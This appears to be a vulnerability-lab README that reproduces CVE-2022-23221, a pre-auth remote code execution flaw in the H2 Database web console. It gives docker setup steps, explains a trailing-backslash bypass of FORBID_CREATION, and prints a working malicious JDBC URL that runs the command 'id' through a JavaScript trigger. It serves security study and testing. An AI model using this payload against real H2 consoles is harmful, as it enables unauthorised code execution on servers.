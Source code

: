 # H2 Database Web Console Pre-Auth JDBC Attack RCE (CVE-2022-23221)

[中文版本(Chinese version)](README.zh-cn.md)

H2 database is a fast, open-source Java-based relational database management system (RDBMS) that can be used in both embedded (within a Java application) and client-server modes.

Springboot with h2 database comes with a web management page if you set the following options:

```
spring.h2.console.enabled=true
spring.h2.console.settings.web-allow-others=true
```

In version 1.4.198, the H2 Web console restricted the creation of file databases or connecting to in-memory databases, thus fixing the [CVE-2018-10054](../CVE-2018-10054) vulnerability. However, attackers could bypass this restriction using JDBC attacks and some tricks in versions 1.4.198 up to (but not including) 2.1.210, and still execute arbitrary code.

References:

- <https://conference.hitb.org/hitbsecconf2021sin/materials/D1T2%20-%20Make%20JDBC%20Attacks%20Brilliant%20Again%20-%20Xu%20Yuanzhen%20&%20Chen%20Hongkun.pdf>
- <https://www.leavesongs.com/PENETRATION/talk-about-h2database-rce.html>
- <https://github.com/h2database/h2database/releases/tag/version-2.1.210>
- <https://github.com/h2database/h2database/pull/1580>
- <https://github.com/h2database/h2database/pull/1726>

## Environment Setup

Start a spring-boot with h2 database 2.0.206:

```
docker compose up -d
```

After started the container, the spring-boot is listening on `http://your-ip:8080`, the management page is `http://your-ip:8080/h2-console/` by default.

## Vulnerability Reproduce

Before reproducing this issue, we can confirm that the payload in [CVE-2018-10054](../CVE-2018-10054) is not exploitable because in-memory database is disabled after 1.4.197:

![](1.png)

Starting with version 1.4.197, the H2 console appends `;FORBID_CREATION=TRUE` to the JDBC URL by default, preventing the creation of file databases or connections to in-memory databases. However, attackers can bypass this restriction by adding a `\` at the end of the JDBC URL, which disrupts the URL syntax and causes FORBID_CREATION to be ignored.

Combining this trick with JDBC attacks, we can construct following malicious JDBC URL:

```
jdbc:h2:mem:test;MODE=MSSQLServer;FORBID_CREATION=FALSE;INIT=CREATE TRIGGER shell3 BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript
    var is = java.lang.Runtime.getRuntime().exec("id").getInputStream()
    var scanner = new java.util.Scanner(is).useDelimiter("\\A")
    throw new java.lang.Exception(scanner.next())
$$;AUTHZPWD=\
```

When logging into the Web console, you can run arbitrary commands using the provided URL (pay attention to the line breaks):

![](2.png)
